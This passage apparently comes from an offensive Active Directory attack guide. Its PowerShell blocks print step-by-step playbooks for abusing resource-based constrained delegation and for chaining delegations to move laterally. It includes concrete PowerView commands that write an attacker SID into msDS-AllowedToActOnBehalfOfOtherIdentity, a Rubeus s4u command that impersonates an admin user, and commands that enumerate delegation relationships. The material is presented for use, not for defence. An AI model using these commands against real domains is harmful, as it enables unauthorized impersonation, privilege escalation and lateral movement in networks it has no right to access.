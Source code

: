 ### **3. Resource-Based Constrained Delegation Abuse**

#### **RBCD Configuration Attack**
```powershell
# RBCD configuration attack
Write-Host "=== RESOURCE-BASED CONSTRAINED DELEGATION ABUSE ===" -ForegroundColor Green

Write-Host "Attack Scenario: RBCD Configuration Abuse" -ForegroundColor Red
Write-Host "`nPrerequisites:" -ForegroundColor Yellow
Write-Host "  1. Control account with write permissions to target computer" -ForegroundColor White
Write-Host "  2. Target computer allows RBCD configuration" -ForegroundColor White
Write-Host "  3. Ability to modify msDS-AllowedToActOnBehalfOfOtherIdentity" -ForegroundColor White

Write-Host "`nAttack Steps:" -ForegroundColor Yellow
Write-Host "  1. Identify target computer for RBCD" -ForegroundColor White
Write-Host "  2. Check write permissions to target" -ForegroundColor White
Write-Host "  3. Configure RBCD to allow your account" -ForegroundColor White
Write-Host "  4. Use S4U2Self for service ticket" -ForegroundColor White
Write-Host "  5. Access target service as impersonated user" -ForegroundColor White

Write-Host "`nPowerView Commands:" -ForegroundColor Yellow
Write-Host "  # Set RBCD for target computer" -ForegroundColor Gray
Write-Host "  Set-DomainObject -Identity TARGET-COMPUTER -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'='D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;ATTACKER-SID)'}" -ForegroundColor White

Write-Host "`nRubeus Commands:" -ForegroundColor Yellow
Write-Host "  # Use S4U2Self with RBCD" -ForegroundColor Gray
Write-Host "  Rubeus.exe s4u /user:attackeraccount /rc4:hash /service:targetservice /impersonateuser:admin" -ForegroundColor White
```

---

## 🚀 ADVANCED DELEGATION ATTACKS

### **1. Multi-Hop Delegation Attacks**

#### **Delegation Chain Exploitation**
```powershell
# Multi-hop delegation chain exploitation
Write-Host "=== MULTI-HOP DELEGATION CHAIN EXPLOITATION ===" -ForegroundColor Green

Write-Host "Attack Scenario: Delegation Chain for Deep Lateral Movement" -ForegroundColor Red
Write-Host "`nChain Example:" -ForegroundColor Yellow
Write-Host "  User A → Service B → Service C → Service D" -ForegroundColor White
Write-Host "  Each hop expands access scope" -ForegroundColor White
Write-Host "  Can reach deeply nested services" -ForegroundColor White

Write-Host "`nAttack Planning:" -ForegroundColor Yellow
Write-Host "  1. Map all delegation relationships" -ForegroundColor White
Write-Host "  2. Identify delegation chains" -ForegroundColor White
Write-Host "  3. Plan optimal attack path" -ForegroundColor White
Write-Host "  4. Execute chain step by step" -ForegroundColor White
Write-Host "  5. Maintain access at each hop" -ForegroundColor White

Write-Host "`nChain Enumeration:" -ForegroundColor Yellow
Write-Host "  # Find all delegation relationships" -ForegroundColor Gray
Write-Host "  Get-DomainObject -TrustedToAuth -Properties Name, msDS-AllowedToDelegateTo" -ForegroundColor White
Write-Host "  Get-DomainComputer -Unconstrained -Properties Name" -ForegroundColor White

Write-Host "`nChain Visualization:" -ForegroundColor Yellow
Write-Host "  # Use BloodHound for delegation chain mapping" -ForegroundColor Gray
```